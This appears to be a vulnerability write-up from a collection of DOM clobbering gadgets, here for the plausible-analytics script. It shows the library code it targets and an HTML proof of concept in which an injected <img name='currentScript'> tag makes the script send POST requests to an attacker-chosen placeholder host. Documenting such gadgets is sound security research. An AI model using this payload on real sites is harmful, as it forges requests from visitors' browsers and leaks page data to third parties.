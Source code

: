## plausible-analytics

### Meta

+ Library: plausible-analytics
+ Stars: 19.7K
+ Version: v2.1.0
+ Fingerprint: `window.plausible !== undefined`
+ Payload: ```<img name="currentScript" data-domain="xxx.xxx.xxx" data-api="https://xxx.xxx.xxx">```
+ Impact: CSRF
+ CVE: N/A
+ Status: N/A
+ Foundby: TheHulk

### Library

https://github.com/plausible/analytics

### Vulnerable Code Snippet

```javascript
    var a = window.location
      , r = window.document
      , o = r.currentScript
      , l = o.getAttribute("data-api") || new URL(o.src).origin + "/api/event";
    function s(t, e) {
        t && console.warn("Ignoring Event: " + t),
        e && e.callback && e.callback()
    }
    function t(t, e) {
        if (/^localhost$|^127(\.[0-9]+){0,2}\.[0-9]+$|^\[::1?\]$/.test(a.hostname) || "file:" === a.protocol)
            return s("localhost", e);
        if ((window._phantom || window.__nightmare || window.navigator.webdriver || window.Cypress) && !window.__plausible)
            return s(null, e);
        try {
            if ("true" === window.localStorage.plausible_ignore)
                return s("localStorage flag", e)
        } catch (t) {}
        var i = {}
          , n = (i.n = t,
        i.u = a.href,
        i.d = o.getAttribute("data-domain"),
        i.r = r.referrer || null,
        e && e.meta && (i.m = JSON.stringify(e.meta)),
        e && e.props && (i.p = e.props),
        new XMLHttpRequest);
        n.open("POST", l, !0),
        n.setRequestHeader("Content-Type", "text/plain"),
        n.send(JSON.stringify(i)),
        n.onreadystatechange = function() {
            4 === n.readyState && e && e.callback && e.callback({
                status: n.status
            })
        }
    }
```

## PoC

```html
<!--Library-->
<script defer data-domain="mydomain.com" src="https://plausible.io/js/script.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" data-domain="xxx.xxx.xxx" data-api="https://xxx.xxx.xxx">
<!--Payload-->
```

The gadgets helps attacker to send arbitrary post request to arbitrary domain on the vicitim's browser. 